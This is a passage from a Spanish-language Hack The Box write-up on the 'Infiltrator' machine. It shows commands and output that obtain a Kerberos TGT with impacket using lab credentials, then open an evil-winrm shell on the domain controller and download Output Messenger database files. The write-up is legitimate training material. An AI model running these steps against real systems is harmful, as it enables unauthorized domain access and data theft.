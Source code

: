 Para ello, primero deberemos de solicitar un TGT (Ticket Granting Ticket) del usuario, almacenarlo en la variable `KRB5CCNAME` y verificar que el ticket TGT esté correctamente configurado.

```bash
❯ impacket-getTGT infiltrator.htb/winrm_svc:'WinRm@$svc^!^P'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in winrm_svc.ccache

❯ export KRB5CCNAME=$(pwd)/winrm_svc.ccache

❯ klist -e
Ticket cache: FILE:/home/kali/Desktop/HackTheBox/Windows/Infiltrator/Infiltrator2/content/winrm_svc.ccache
Default principal: winrm_svc@INFILTRATOR.HTB

Valid starting     Expires            Service principal
18/01/25 00:27:56  18/01/25 10:27:56  krbtgt/INFILTRATOR.HTB@INFILTRATOR.HTB
	renew until 19/01/25 00:28:04, Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96 
```

Al proceder a conectarnos al equipo mediante `evil-winrm` y, revisando el directorio `AppData` nos encontramos con dos archivos `.db3` que quizás podríamos llegar a encontrar información interesante. Nos descargamos ambos archivos para tenerlos localmente en nuestro equipo.

```bash
❯ evil-winrm -i dc01.infiltrator.htb -r infiltrator.htb
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> cd "C:\Users\winrm_svc\AppData\Roaming\Output Messenger\JAAA"
*Evil-WinRM* PS C:\Users\winrm_svc\AppData\Roaming\Output Messenger\JAAA> ls


    Directory: C:\Users\winrm_svc\AppData\Roaming\Output Messenger\JAAA


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/25/2024   7:20 AM                Audios
d-----        2/25/2024   7:20 AM                CalendarFiles
d-----        2/25/2024   7:26 AM                Log
d-----        2/25/2024   7:20 AM                MailInbox
d-----        2/25/2024   7:20 AM                MailSent
d-----        2/25/2024   7:20 AM                Received Files
d-----        2/25/2024   7:20 AM                Screenshots
d-----        2/25/2024   7:20 AM                Temp
d-----        2/25/2024   7:20 AM                Theme
-a----        2/25/2024   7:20 AM          29696 OM.db3
-a----        2/25/2024   7:20 AM          13312 OT.db3


*Evil-WinRM* PS C:\Users\winrm_svc\AppData\Roaming\Output Messenger\JAAA> download OM.db3
                                        
Info: Downloading C:\Users\winrm_svc\AppData\Roaming\Output Messenger\JAAA\OM.db3 to OM.db3
                                        
```
